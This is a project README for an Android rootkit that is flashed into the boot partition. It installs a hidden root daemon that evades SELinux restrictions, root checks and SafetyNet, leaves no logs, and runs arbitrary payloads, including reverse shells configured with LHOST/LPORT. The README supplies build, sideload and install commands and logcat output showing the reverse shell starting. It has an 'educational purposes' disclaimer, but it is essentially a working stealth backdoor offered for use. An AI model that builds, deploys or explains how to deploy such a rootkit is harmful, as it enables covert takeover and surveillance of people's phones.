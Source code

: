 # Flashable Usermode Rootkit for Android

#### A full rework of [unlocked-bootloader-backdoor-demo](https://github.com/LuigiVampa92/unlocked-bootloader-backdoor-demo) by LuigiVampa92

#### This is currently an experimental work. Stability is not guaranteed.

FURA is a systemless flashable backdoor installed into boot partition, particularly into _init_ binary.
On boot, it launches a system daemon with root privileges and unrestricted SELinux context, which is also hidden from process list.
Since it's operating within ramdisk, this tool can bypass most root checks, integrity checks, etc. and presumably cannot be detected without root _(not even by ADB shell)_.

Unlike its predecessor, this rootkit can bypass SafetyNet, since it doesn't need to modify system partition. \
However, it can't bypass hardware checks, such as hardware-backed SafetyNet on newer devices. 

The daemon is a custom executor (sort of a service manager) for an arbitrary payload. 
It runs silently and normally leaves no traces in _dmesg_, _logcat_, etc., unlike a regular service run by _init_ in loop.

FURA uses SELinux to its own advantage: not only to bypass stock policy restrictions, but to hide itself from the rest of the system.

This tool, like its predecessor, is based on [Magisk](https://github.com/topjohnwu/Magisk) source code, but does not necessary require root or Magisk preinstalled on the device. 
It mostly uses a part of MagiskInit to patch SELinux policy.

## Features & Improvements

- Installs entirely into _/boot_, does not modify _/system_ in any way
- Operates in ramdisk without touching storage
- Employs a custom daemon to monitor payload execution
- Leaves no init logs
- Modifies SELinux policy to hide itself
- Installation and backup no longer depend on _/data_
- Cut artifacts and unused code left from Magisk

## Prerequisites

- Python 3
- Android SDK
- ADB / Fastboot tools
- Custom recovery image for your device (TWRP is recommended)
- ##### **No Magisk installed on device!!!** &ensp; (compatibility issues cause bootloop)

## Build

_cd_ into main project directory.

Set ANDROID_SDK_ROOT variable in your shell. For example:  
```
$ export ANDROID_SDK_ROOT=/opt/android-sdk
```

Install and configure NDK:
```
$ ./build_revshell.py ndk
```

Run the build script:
```
$ ./build_revshell.py clean      # before rebuild if changed config
$ ./build_revshell.py
```

The result is a sideloadable _.zip_ package which can be installed with TWRP or other recovery.

_Note_: if using reverse shell payloads (such as ReverseSSH, Meterpreter, etc.), set your LHOST and LPORT in `config.prop` before building.

_Note_: if SELinux is _permissive_ or _off_ on the target device, you can use alternative hiding method. See `config.prop` for details.

_Note_: you can disable logging (logcat and selinux) by setting `release=True` in the end of `build_revshell.py`.


## Deploy

#### Install

Run TWRP on your device:
```
$ fastboot boot twrp.img
```

Start sideload feature in Advanced / Sideload and then run:
```
$ adb sideload zip_reverse_shell_v2.zip
```

At this moment, **do not reboot** right away. Backup original boot partition:
```
$ adb pull /tmp/backup_original_partitions .
```

Run the command **before** rebooting into system, otherwise you will not be able to uninstall this tool properly and will have to find stock boot image for your device somewhere and flash it.

Reboot into system after you have backups on your PC.

#### Uninstall

You need a backup of original partitions made during installation. Move it to _/tmp_:
```
$ adb push backup_original_partitions /tmp/
```

Start sideload feature in Advanced / Sideload and then run:
```
$ adb sideload zip_reverse_shell_uninstall.zip
```

Reboot into system.

... or you can just flash stock boot image if you have one:
```
$ fastboot flash boot boot.img
```

#### Installation scripts

There are installation scripts to automate install / reinstall process. \
Before running one, rename or symlink your TWRP image as `twrp` in your current directory.

Simply connect your device via USB and switch it into Fastboot mode.
After installation, backups will be saved automatically.

`install.sh` to install and save backup image. \
`reinstall.sh` to reinstall quickly (if you have the backup).\
`uninstall.sh` to restore original boot image from backup.

##### _Warning_: avoid double installation as it will cause bootloop.

## Test

The default payload in this repo is a dummy program that writes stuff to logcat. 

After boot is completed, you should be able to see its output:

```
$ adb logcat | grep revshell
03-18 00:34:41.732  2381  2381 D revshell_exec: Remounting /sbin to avoid mount detection ...
03-18 00:34:41.732  2381  2381 D revshell_exec: Setting up /mnt/secure/temp
03-18 00:34:41.732  2381  2381 D revshell_exec: Awaiting decryption ...
03-18 00:34:41.732  2381  2381 D revshell_exec: Decrypted. Setting persistence dir at /data/adb/.aura
03-18 00:34:46.817  2381  2381 I revshell_exec: restarting ...
03-18 00:34:46.884  3197  3197 D revshell: Start successfull!
03-18 00:34:46.885  3197  3197 D revshell: Signals are set to ignore
03-18 00:34:46.885  3197  3197 D revshell: Hey I'm a revshell process!
03-18 00:34:46.885  3197  3197 D revshell: My PID -- 3197
03-18 00:34:46.885  3197  3197 D revshell: My parent PID -- 2381
03-18 00:34:46.885  3197  3197 D revshell: My UID -- 0
03-18 00:34:46.885  3197  3197 D revshell: Awaiting encrypted FS decryption now...
03-18 00:34:51.241  2381  2381 D revshell_exec: Checking PID
03-18 00:34:51.311  3197  3197 D revshell: FS has been decrypted!
03-18 00:34:51.311  3197  3197 D revshell: Starting reverse shell now
03-18 00:34:56.242  2381  2381 D revshell_exec: Checking PID
03-18 00:34:56.312  3197  3197 D revshell: tick ! 10 seconds since process started
03-18 00:35:01.244  2381  2381 D revshell_exec: Checking PID
03-18 00:35:01.312  3197  3197 D revshell: tick ! 15 seconds since process started
```

You can disable logging (logcat and selinux) by setting `release=True` in the end of `build_revshell.py`.

## Custom payloads

To embed a custom payload, simply put your executable into `revshell/{arch}/` as `revshell`. It is not required to place executables for all archs: those where `revshell` is absent will use default payload. 

For more details on custom payloads, see [Payloads](revshell/Payloads.md).


## Acknowledgments

Thanks to LuigiVampa92 for a [great article](https://habr.com/ru/articles/541190/) on a physical access attack concept for devices with unlocked bootloader.

Thanks to topjohnwu and all Magisk maintainers for that brilliant swiss army knife for Android and a great contribution to Android modding community.

## Links

[Magisk](https://github.com/topjohnwu/Magisk) \
[unlocked-bootloader-backdoor-demo](https://github.com/LuigiVampa92/unlocked-bootloader-backdoor-demo)


## Disclaimer
    
    This tool is designed for educational purposes only. You may utilize this software solely on 
    your personal devices. Any attempt to use this tool on a device without explicit authorization 
    is unethical and may violate privacy laws.
    
    Running this tool may result in bricking or damaging your device. Create backups of your data
    and /boot (/boot_a, /boot_b) partitions before using the tool. 
    
    Use at your own risk. The developer is not responsible for any damage or loss caused by this tool.
